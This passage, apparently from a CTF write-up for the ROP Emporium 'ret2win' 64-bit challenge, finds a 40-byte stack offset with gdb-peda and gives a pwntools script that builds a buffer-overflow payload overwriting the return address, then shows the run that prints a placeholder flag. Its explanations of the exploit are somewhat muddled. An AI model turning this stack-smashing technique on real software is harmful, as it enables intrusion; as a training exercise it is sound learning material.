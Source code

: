 In 64-bit binaries we can see the RIP doesn't contain our sequence. In 64-bit, it will not pop a value into RIP if it cannot actually jump to the address and execute it. So the value is at top of the stack after popping to RIP failed. So from above we can see that RSP has the pattern, we can get value from it. As we can see it has a value of **"AA0AAFAAb"** at the time of segment fault.

Time to find the padding we need in order to execute the instruction properly. Using peda:-

```

gdb-peda$ pattern_offset AA0AAFAAb
AA0AAFAAb found at offset: 40

```

# Creating Exploit

Now, we have all we need to execute the exploit. Now let's craft the exploit.
We need the memory address of RIP and the padding length and python, of course.

Using pwntools to craft exploit:-

```python
from pwn import * # Importing all functions from pwntools

prog = process("./ret2win") # Opening ret2win library

payload = "A" * 40 # padding
payload += p64(0x00400824) # Address of "push rbp" from sym.pwnme

open('payload', 'w').write(payload) # Writing the payload to fie payload.

```

Now, run the exploit:-

```bash
robin@oracle:~/ROP-Emporium$ python ret2win.py
[+] Starting local process './ret2win': pid 9089
[*] Stopped process './ret2win' (pid 9089)
robin@oracle:~/ROP-Emporium$ ./ret2win < payload
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> ROPE{a_placeholder_32byte_flag!}

```

Bam, we read the flag by pushing the `pop rbp` address to RIP hence executing our payload.

Follow me on [twitter](https://twitter.com/d4mianwayne) for more ROP contents.
